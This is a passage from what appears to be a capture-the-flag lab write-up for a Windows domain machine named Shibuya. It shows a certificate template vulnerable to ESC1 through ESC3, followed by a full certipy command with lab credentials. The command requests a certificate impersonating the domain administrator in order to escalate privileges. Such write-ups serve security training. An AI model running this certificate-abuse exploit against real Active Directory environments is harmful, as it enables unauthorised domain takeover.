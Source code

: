 ![Screenshot_20251031_002212.png](/assets/images/Shibuya_VL/Screenshot_20251031_002212.png)

We can see that it is Vulnerable to ESC1, ESC2 and ESC3.

### ESC1

Simply using ESC1 to exploit this and escalate our privileges.

```bash
proxychains certipy req -u 'Nigel.Mills' -p 'Sail2Boat3' -dc-ip 10.129.234.42 -ca 'shibuya-AWSJPDC0522-CA' -template 'ShibuyaWeb' -upn '_admin@shibuya.vl' -key-size 4096 -sid S-1-5-21-87560095-894484815-3652015022-500
```

![image.png](/assets/images/Shibuya_VL/image%2018.png)
